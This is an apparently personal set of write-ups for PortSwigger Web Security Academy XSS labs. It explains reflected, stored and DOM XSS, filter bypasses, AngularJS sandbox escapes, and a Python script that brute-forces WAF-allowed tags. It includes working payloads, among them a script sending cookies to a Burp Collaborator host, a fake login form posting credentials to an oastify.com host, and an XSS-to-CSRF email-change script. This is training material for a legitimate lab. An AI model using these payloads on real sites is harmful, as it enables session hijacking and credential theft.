





# Portswigger Writeups

Most of these aren't scripted because there's literally no need to.

## Lab 1: Reflected XSS with nothing encoded

Web page shows a basic search feature that allows for input of HTML tags:


The tag is processed, so just need to make it call `alert`.

## Lab 2: Stored XSS with nothing encoded

Stored XSS means that the vulnerable feature is like a comment section or something.

Just leave `<script>alert(1)</script>` within a comment.

## Lab 3: DOM XSS in document.write sink

DOM XSS occurs when a web app modifies the DOM in the user's browser, such as when user input is used to modify the page's HTML or JS code.

This allows for scripts to be executed directly in the user's browser.

For this lab, I entered my string into the search bar and found that the `<script>` tags were being escaped.


At the bottom of the page, there was this function:

```js
function trackSearch(query) {
    document.write('');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```

`document.write` is a sink, and it passes the `query` parameter (which equals to the `search` one) directly into the sink without sanitising.

I was wondering whether it was possible to 'escape' the quotes and stuff that `query` was placed within, and it was.

Using `"><script>alert(1)</script>` would solve the lab.

## Lab 4: DOM XSS in innerHTML sink

Same thing as above, just that the query is placed within `innerHTML` instead.

```js
 function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

innerHTML does not accept `<script>`, and only loads `` or `<iframe>` tags.

Using `` solves the lab.

## Lab 5: DOM XSS in jQuery href sink

There was this function within the feedback page:

```js
 $(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

So when I press 'back' from the feedback page, there's a `returnPath` parameter that is passed along. This allows for me to input `javascript:alert(1)` to be executed and solve the lab.

## Lab 6: DOM XSS in jQuery selector sink using hashchange event

Uses `$()` function to auto-scroll, title passed by `location.hash` property. To solve, call `print()`.

This is the function:

```js
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

This function is executed when the location hash (#) in the URL is triggered.

The `decodeURIComponent` part just removes the # symbol from the string. `var post` just searches for the part to go to.

The usage of `$()` is a sink, and all I have to do is use `#<PAYLOAD>`. The function would remove the `#` character and send the rest of the payload into the sink.

How the exploit server works is it forces the victim to visit and view whatever 'Body' I write.

I can use `<iframe>` to load the URL, but I need to find a way to structure my payload. I can use `onload` to inject the XSS payload AFTER the website has loaded.

This can be done using `this.src += PAYLOAD`. 

```js
<iframe src="https://0a2e0019044c068a80803f9e00cf005e.web-security-academy.net/#" onload="this.src += ''"</iframe>
```

Delivering the above would solve the lab.

## Lab 7: Reflected XSS into attribute with angle brackets HTML-encoded

The input is reflected inside a quoted attribute. I could not escape from the attribute AND the tag using `">`. 

As such, one other method is creating an event via `" autofocus onfocus=alert(1) x="`.

## Lab 8: Stored XSS into href with double quotes HTML-encoded

For this lab, the website is within a `href` tag when leaving comments on blogs.

To solve, just leave the website as `javascript:alert(1)`.

## Lab 9: Reflected XSS into JS string with angle brackets HTML encoded

I initially tested with some XSS payloads, and this is where the search queries wind up:

```html
<h1>0 search results for '&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;'</h1>
```

The `"` characters are also being encoded, and hence I cannot just inject events. Interestingly, my searches are being reflected in a JS string:

```js
var searchTerms = 'onclick=alert(1)';
document.write('');
```

To exploit this, I have to escape the `searchTerms` part and run `alert(1)`. Hacktricks has a few payloads, and `';-alert(1)//` works.

## Lab 10: DOM XSS in document.write sink using source location.search inside a select element

Within the stock checking function, there's this bit of code here:

```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

The `window.location.search` function searches the URL for the `storeId` parameter, and then it **adds it to the list of available options**.



The above was a result of adding a `storeId` GET parameter to the URL. Using this, I just have to use a value of `<script>alert(1)</script>`, which will be passed to `document.write` and hence executed.

## Lab 11: AngularJS Expression with angle brackets and double quotes HTML-encoded -> SSTI

The hint here is that AngularJS expressions were used, and interestingly using `{{7*7}}` results in 49 being displayed:


Leveraging on this SSTI, one can use `{{constructor.constructor('alert(1)')()}}` to solve the lab. This is because the entire thing is enclosed within an `ng-app` directive, thus making SSTI possible.

## Lab 12: Reflected DOM XSS

My search queries don't appear within the HTML, but there is a file that has some JS called `searchResults.js`, which looks to be processing whatever I enter. 

The top of the page shows that it uses `eval`, a dangerous sink:

```js
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
```

This means the code is technically vulnerable to Javascript injection. When testing around, searching `\` results in nothing being printed:


Seems that the backslash character causes some kind of error.Entering `\"`also prints nothing. When taking a look at the requests in Burp, I saw that it was returning JSON:



The website attempts to escape the `\"` search:


I ended up reading the solution as I could not figure this one out. 

Turns out there is a need for an **arithmetic operator** to separate expressions before `alert()` is called, and to comment out the rest using `//`. 

`\"-alert(1)}//` solves the lab.

## Lab 13: Stored DOM XSS

Same thing as above, this time it uses `loadCommentsWithVulnerableEscapeHtml.js` to load comments. 

There were a few lines that were interesting:

```js
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}

avatarImgElement.setAttribute("src", comment.avatar ? escapeHTML(comment.avatar) : "/resources/images/avatarDefault.svg");
```

`setAttribute` was a sink, allowing for `img` tags to be used to load stuff. The problem with its 'escape' is that the `replace` function only **works once**. This means that it **ONLY REPLACES THE FIRST MATCH**.

Using `<>` works since it bypasses the check!

## Lab 14: Reflected XSS with tag and attribute blocking

This lab has a WAF that causes the website to return a 400 code should an invalid tag be entered.

Portswigger provides a cheat sheet page with all their custom tags and events, so I can just brute force it with the following script:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0acb009003e73d8d83dc196500640085'
COOKIE = 'IfSHboN6FUAF2UQ6zqWOQ3H2kKSJKv5P'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()

with open('all_tags','r') as f:
	for tags in f:
		params = {
			'search':f'<{tags}>'
		}
		r = s.get(url, params=params)
		if r.status_code == 200:
			print(f"[+] Allowed tag: {tags}")

### OUTPUT
$ python3 brutexss.py
[+] Allowed tag: body
[+] Allowed tag: custom tags
```

The above would brute force all the possible tags, and afterwards, I need to find the events.

I replaced the loop with the following:

```python
with open('all_events','r') as f:
	for events in f:
		params = {
			'search':f'<body {events}=1>'
		}
		r = s.get(url, params=params)
		if r.status_code == 200:
			print(f"[+] Allowed events: {events}")

### OUTPUT
$ python3 brutexss.py 
[+] Allowed events: onbeforeinput
[+] Allowed events: onbeforetoggle
[+] Allowed events: onratechange
[+] Allowed events: onresize
[+] Allowed events: onscrollend
```

Out of all the events, only `onresize` had a payload that required no user interaction.

Using the exploit server, I have to construct an `iframe` to load the page, and then load the payload. Afterwards, the window has to be resized to trigger the payload.

`<iframe src="https://0acb009003e73d8d83dc196500640085.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100%';></iframe>
` works.

## Lab 14: Reflected XSS with all blocked except custom tags

Same as above, just that I have to create a custom tag. Looking at Hacktricks, it shows me the solution for the lab:

```js
<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

This payload uses a custom tag, and in theory it can be anything since all XSS requires is the event to execute scripts.

`<iframe>` cannot be used for this because it seems to be blocked by Firefox, and I'm presuming it is blocked on the client's Chrome browser as well.

As such, `<script>` tags and `location` to redirect the client works.

```js
<script>
location = 'https://0a1300b703f73ede80a599b600d10016.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

## Lab 15: SVG Markup is allowed

`<svg>` tags are allowed, but I still brute forced the rest:

```
$ python3 brutexss.py
[+] Allowed events: animatetransform
[+] Allowed events: image
[+] Allowed events: svg
[+] Allowed events: title
```

Using the cheatsheet, there are a few possible payloads using `svg` and `animatetransform`. This works: `<svg><animatetransform onbegin=alert(1) attributeName=transform>`.

## Lab 16: XSS in Canonical Link Tag

A canonical link element is an element used in the head section of HTML to indicate that another page is representative of the content on the page.

Based on the definition of the above, I tested to see if my query parameters were injected into HTML, and they were:


Entering an invalid HTML sequence causes a 404 error. To solve this lab, a certain set of keys has to be entered. 

Here's the link to the research:



First, escape the string for the URL of the site using `'`, then enter the payload:

```js
accesskey='x'onclick='alert(1)'
```

This would solve the lab.

## Lab 17: Reflected XSS into JS String with single quote and backslash escaped

As per the name. I ran some random tags and saw this:


This is because my search term is reflected here:


Notice the `</script>` by me is processed as a tag. So using `<script/random>alert(1)</script><script>alert(1)</script>` triggers `alert(1)` since it just needs another `script` tag to run the command.

## Lab 18: Angle brackets and double quotes HTML-encoded and single quotes escaped

I tested with `\test\`, and this was the result:


Backslashes aren't escaped in this. Using `\'-` results in `var searchTerms = '\\'-';`. 

Just append `alert(1)//` to the end of that to solve the lab.

## Lab 19: Angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

Long lab name, but basically when I made a comment and leave a website, this is how it is reflected:


The link itself is encoded within an `onclick` attribute. The quotes are escaped for me, so I have to break it using `';`. 

However, using `'` doesn't seem to work at all. Instead, one can use `&apos` since it is decoded at runtime and shouldn't be escaped. 

Thus, using `&apos;` would escape the URL part of the `onclick` attribute. Then, simply put `alert(1)` with `&apos;` to end the second quote.


## Lab 20: Template Literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

The string I search appears here:


Notice that it appears within a template literal. One can use JS expressions to solve the lab. 
Payload: `${alert(1)}`.

## Lab 21: XSS to steal cookie

This requires Burp Collaborator and XSS to steal a cookie. Just use this:

```html
<script>location.href = 'http://BURPSUITE_COLLAB/Stealer.php?cookie='+document.cookie</script>
```

This causes the user's cookie to appear here:


Then, just replace the `session` cookie to get into the user's account.

## Lab 22: Stealing Passwords

This involves stealing auto-login credentials from the browser. Hacktricks has this payload:

```html
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://bix1mskv91ypmwxh9sf9z3wgi7oycq0f.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```



This payload works by creating a simulated login page in the comment section:


Since this simulates the actual login, the fake user would enter their credentials within this:



## Lab 23: XSS to CSRF

Goal is to change the email of a simulated user. I first logged into view the POST request sent when an email is changed.

Firstly, here's the HTML:


So first, I would need to extract the CSRF token, and then send a POST request with the `email` parameter. Here's the POST request sent:



This process does not require any authentication from the user (no password validation), thus it is vulnerable to CSRF. 

One can use this payload to exploit the lab:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

What this does is send a HTTP request when the user views the comment via executing Javascript.

## Lab 24: AngularJS Sandbox Escape w/o Strings

To solve this, call `alert()`. This lab uses AngularJS as indicated by the `ng-app` tags:


Here's the code that processes the search:

```js
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'thisismystring';
    $scope.value = $parse(key)($scope.query);
});

<h1 ng-controller=vulnCtrl>0 search results for {{value}}</h1>
```

So this doesn't use `eval`, which means I don't have any strings in AngularJS.